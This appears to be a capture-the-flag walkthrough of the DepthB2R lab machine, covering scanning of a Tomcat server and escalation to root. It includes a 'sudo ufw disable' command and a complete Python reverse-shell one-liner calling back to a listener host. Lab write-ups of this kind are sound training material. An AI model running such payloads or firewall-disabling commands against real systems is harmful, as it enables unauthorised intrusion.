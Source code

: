 ```yaml
---
title: DepthB2R
categories: [Proving Grounds Play]
tags: [Firewall Disable, Recon, nikto, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  DepthB2R Machine 🖥️
---
```



### Lets check the IP address → 

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled.png)

```bash
IP : 10.0.2.44
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/DepthB2R]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.44
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 11:29 IST
Nmap scan report for 10.0.2.44
Host is up (0.00079s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat
MAC Address: 08:00:27:FC:6B:6D (Oracle VirtualBox virtual NIC)
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%201.png)

Now after directory traversal I got these files and directories →

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%202.png)

Now lets load the directory /manager/ ➡️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%203.png)

Now while nikto scan I got a file > `test.jsp` →

```bash
Nikto.txt
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/DepthB2R]
└─$ nikto -h http://10.0.2.44:8080/ -o nikto.txt -C all
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.44
+ Target Hostname:    10.0.2.44
+ Target Port:        8080
+ Start Time:         2023-05-04 11:51:21 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /test.jsp: This might be interesting.
+ /manager/status: Default Tomcat Server Status interface found.
+ 26792 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2023-05-04 11:53:28 (GMT5.5) (127 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%205.png)

Now lets see inside the home which user is there →

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%206.png)

> User : bill , So lets disable the firewall so that I can execute my reverse shell command through ssh.
> 

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%207.png)

command : `sudo ufw disable` to disable the firewall but I have to use ssh bill@localhost first so that it can be executed .

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%208.png)

Now lets start the listener port 4444 with nc and then execute the payload for reverse shell .

```bash
payload :
ssh bill@localhost python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
{: .nolineno}

In response I got this ➡️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%209.png)

Lets see how bill can lead us to root →

```bash
bill@b2r:~$ sudo -l
sudo -l
Matching Defaults entries for bill on b2r:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bill may run the following commands on b2r:
    (ALL : ALL) NOPASSWD: ALL
bill@b2r:~$
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%2010.png)

Now I am root →

```bash
root@b2r:/root# cat flag
cat flag
flag{WellThatWasEasy}
root@b2r:/root#
```